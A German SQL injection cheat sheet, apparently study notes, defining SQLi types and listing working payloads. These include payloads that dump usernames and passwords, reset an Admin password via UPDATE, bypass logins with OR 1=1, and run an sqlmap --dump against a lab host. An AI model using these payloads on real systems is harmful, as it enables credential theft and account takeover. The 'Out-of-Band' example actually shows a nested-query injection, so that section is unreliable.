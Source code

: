 ```yaml
---
description: Manipulation von Datenbankabfragen
---
```


# SQLi ( SQL Injection )

<details>

<summary>Links:</summary>

[https://portswigger.net/support/sql-injection-in-different-statement-types](https://portswigger.net/support/sql-injection-in-different-statement-types)

</details>

SQL-Injection ist eine weit verbreitete Schwachstelle in Webanwendungen. Sie erlaubt es Angreifern, manipulierte Eingaben in SQL-Abfragen einzuschleusen, um unautorisierten Zugriff auf Datenbanken zu erlangen oder Daten zu verändern. SQLi kann bei verschiedenen SQL-Befehlen auftreten, darunter `SELECT`, `UPDATE`, `DELETE` und `INSERT`. Die Auswirkungen reichen von Datendiebstahl bis hin zur vollständigen Kontrolle über die Datenbank.

***

### **1. In-Band SQLi**

**Definition:**\
In-Band SQL-Injection ist die einfachste und am häufigsten genutzte Form. Die abgefragten Daten werden über denselben Kommunikationskanal wie die ursprüngliche Anfrage zurückgegeben. Zwei gängige Untertypen sind _Error-Based_ und _Union-Based_ SQLi.

#### **1.1 Datenbankinformationen abfragen**

Ziel ist es, Informationen über das Datenbankmanagementsystem (DBMS) zu gewinnen, wie etwa Version, Tabellen oder Spalten.

**Beispiele zur Versionserkennung:**

```sql
-- MySQL und MSSQL
',nickName=@@version,email='

-- Oracle
',nickName=(SELECT banner FROM v$version),email='

-- SQLite
',nickName=sqlite_version(),email='
```

#### **1.2 Strukturabfragen in SQLite**

In SQLite lassen sich Tabellen und Spalten wie folgt auslesen:

```sql
-- Tabellen auflisten
',nickName=(SELECT group_concat(tbl_name) 
FROM sqlite_master 
WHERE type='table' 
AND tbl_name NOT like 'sqlite_%'),email='

-- Struktur (DDL) einer bestimmten Tabelle anzeigen
',nickName=(SELECT sql 
FROM sqlite_master 
WHERE type!='meta' AND sql NOT NULL AND name='usertable'),email='

-- Inhalt der Tabelle „usertable“ auslesen
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") 
FROM usertable),email='
```

#### **1.3 Passwortänderung (UPDATE-Injection)**

Ein direktes Update eines Benutzerpassworts mittels SQLi:

```sql
', password='[SHA256_HASH]' WHERE name='Admin'-- -
```

Beispiel-Hash von „Password123“ (SHA256):

```
008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601
```

***

### **2. Error-Based SQLi**

**Definition:**\
Bei dieser Methode provozieren Angreifer gezielt Fehlermeldungen der Datenbank, um daraus Informationen über deren Struktur und Inhalte abzuleiten. Dies ist nur möglich, wenn Fehlermeldungen im Frontend angezeigt werden.

***

### **3. Union-Based SQLi**

**Definition:**\
Hierbei wird der `UNION SELECT`-Operator genutzt, um eigene Ergebnisse mit denen der regulären SQL-Abfrage zu kombinieren.

#### **Wichtige Voraussetzungen:**

* Die Anzahl der Spalten der ursprünglichen Abfrage muss mit der der `UNION SELECT`-Abfrage übereinstimmen.
* Die Datentypen der Spalten müssen kompatibel sein.

#### **Anwendungsbeispiele:**

**Spaltenanzahl herausfinden:**

```sql
' UNION SELECT 1,2,3,... -- -
```

**Datenbankname ermitteln:**

```sql
' UNION SELECT 1,2,3 WHERE database() LIKE '%';-- 
```

**Tabellennamen auslesen:**

```sql
0 UNION SELECT 1,2,group_concat(table_name) 
FROM information_schema.tables 
WHERE table_schema = 'sqli_one'
```

**Spaltennamen aus Tabelle ermitteln:**

```sql
0 UNION SELECT 1,2,group_concat(column_name) 
FROM information_schema.columns 
WHERE table_name = 'staff_users'
```

**Zugangsdaten extrahieren:**

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') 
FROM staff_users
```

***

### **4. Blind SQLi**

**Definition:**\
Blind SQL-Injection kommt zum Einsatz, wenn keine Fehlermeldungen oder Ausgaben erfolgen. Die Rückmeldungen der Anwendung basieren auf _wahren oder falschen Bedingungen_, nicht auf expliziter Anzeige von Daten.

***

### **4.1 Klassische Blind SQLi**

Einzelne Zeichen eines Passworts werden iterativ getestet. Reagiert die Anwendung unterschiedlich (z. B. Weiterleitung, HTTP-Code, Textanzeige), können Rückschlüsse auf den Wahrheitsgehalt gezogen werden.

```sql
admin123' AND substring(password,1,1) = 'a' -- -
```

***

### **4.2 Blind SQLi – Authentication Bypass**

Manipulation von Loginformularen, um ohne gültige Zugangsdaten Zugang zu erhalten.

```sql
select * from users where username='' and password='' OR 1=1;
```

**Achtung:**\
Solche Techniken können bei `UPDATE`- oder `DELETE`-Abfragen zu schwerwiegenden Datenverlusten führen, wenn `OR 1=1` alle Datensätze betrifft.

***

### **4.3 Boolean-Based Blind SQLi**

Die Anwendung unterscheidet in der Antwortausgabe zwischen _wahr_ und _falsch_.

**Beispiele:**

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--

admin123' UNION SELECT 1,2,3 
FROM information_schema.tables 
WHERE table_schema = 'sqli_three' AND table_name = 'users';
```

***

### **4.4 Time-Based Blind SQLi**

Statt einer sichtbaren Reaktion wird die Ausführungszeit manipuliert. Bleibt die Seite z. B. 5 Sekunden stehen, ist die getestete Bedingung wohl _wahr_.

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

***

### **5. Out-of-Band SQLi**

**Definition:**\
Diese Methode nutzt alternative Kommunikationskanäle (z. B. HTTP, DNS), um Daten zu exfiltrieren – besonders nützlich, wenn keine sichtbaren Ausgaben oder Zeitunterschiede möglich sind.

**Beispiel mit mehrstufiger Abfrageverarbeitung:**

```sql
' union select '1'' union select 1,2,3,group_concat(password) from users-- -
```

**Verarbeitung durch Anwendung:**

**Query 1:**

```sql
SELECT id FROM books WHERE title like '' union select '1'' union select 1,2,3,group_concat(password) from users-- -%'
```

**Query 2:**

```sql
SELECT * FROM books WHERE id = '1' union select 1,2,3,group_concat(password) from users-- -%'
```

***

### **6. SQLMap – Automatisierte SQLi-Erkennung und -Ausführung**

**SQLMap** ist ein Open-Source-Tool zur automatisierten Ausnutzung von SQLi-Schwachstellen. Es kann unter anderem Datenbanken identifizieren, Tabellen und Spalten extrahieren und Authentifizierungsmechanismen umgehen.

**Beispiel für SQLMap-Einsatz:**

```bash
sqlmap -u http://10.10.67.130:5000/challenge3/login \
--data="username=admin&password=admin" \
--level=5 --risk=3 --dbms=sqlite --technique=b --dump
```
